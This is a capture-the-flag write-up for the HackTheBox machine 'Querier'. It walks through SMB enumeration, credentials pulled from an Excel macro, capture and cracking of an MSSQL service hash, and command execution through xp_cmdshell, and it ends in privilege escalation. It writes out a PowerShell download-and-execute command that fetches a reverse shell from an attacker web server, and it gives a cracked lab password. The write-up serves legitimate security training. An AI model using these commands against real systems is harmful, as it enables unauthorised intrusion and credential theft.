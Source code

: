 ```yaml
---
title: Querier
date: 2023-01-10 14:00
categories: [htb]
tags: [Windows,MSSQL,Outdated Software,Weak Credentials,Password Cracking,Powershell,Hash Capture]
---
```


 Querier is a medium level machine on HacktheBox that starts with discovering database credentials in the macros of a xlsm file on a network share. We can then login to the database as a low privelege user, and send the database service hash to our listener on responder using a nice trick from hacktricks. We crack the hash and login to the database with new credentials, which lets us enable xp_cmdshell and execute commands on the box. We finally escalate priveleges with help from the PowerUp.ps1 script.

### Enumeration

Results of nmap show

```bash
Host is up (0.051s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-01-10T20:04:25+00:00; 0s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-01-10T20:01:25
|_Not valid after:  2053-01-10T20:01:25
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-10T20:04:21
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds
```

We can use SMBmap with no username to see if we have anonymous access and list the shares.

![list](/assets/img/querier/list.png)

Reports is non-standard on Windows, meaning some body made this share. Let's check it out.

![reports](/assets/img/querier/reports.png)

We can download this Currency Volume Reports file and see if it gives us any info.

![macros](/assets/img/querier/macros.png)

Right off the bat we are hit with a blank file and a security warning that the document contains macros. Checking the macros reveals a  "connect" function, which contains credentials for a service account.

![creds](/assets/img/querier/creds.png)

### Foothold

Login to the mssql service on port 1433 with the credentials,and remember to use the -windows-auth flag.

![lowpriv](/assets/img/querier/lowpriv.png)

We can see that the credentials are valid for the database, however we don't have the privileges required to execute commands, and there's nothing else that we can see here that's interesting. Let's check out a trick from Hacktricks. If we set up a SMB server using responder or impacket, we can potentially steal the netNTLM hash of the database.

![hash](/assets/img/querier/hash.png)

Cracking this hash gives us the credentials mssql-svc:corporate568 , which we can use to login to the database again to see if we have more privileges this time around.

![cmdshell](/assets/img/querier/cmdshell.png)

We are able to execute commands as the service account now. Let's get a reverse shell and enumerate the box. We host the Nishang powershell reverse shell on a web server and download it from the victim machine using `xp_cmdshell echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.9/rev.ps1") | powershell -noprofile` and our web server gets a hit from the box, and then we get a hit on our netcat listener.

![rev](/assets/img/querier/rev.png)

### Priv Esc

we can upload PowerUp.ps1 in the same way and run `Invoke-AllChecks`

![gpp](/assets/img/querier/gpp.png)

Which gives admin credentials that were located in the C:\Windows\Panther\Unattend.xml file

![system](/assets/img/querier/system.png)

Using these credentials in psexec gives us a system shell.

Let's check another way we can root this box.

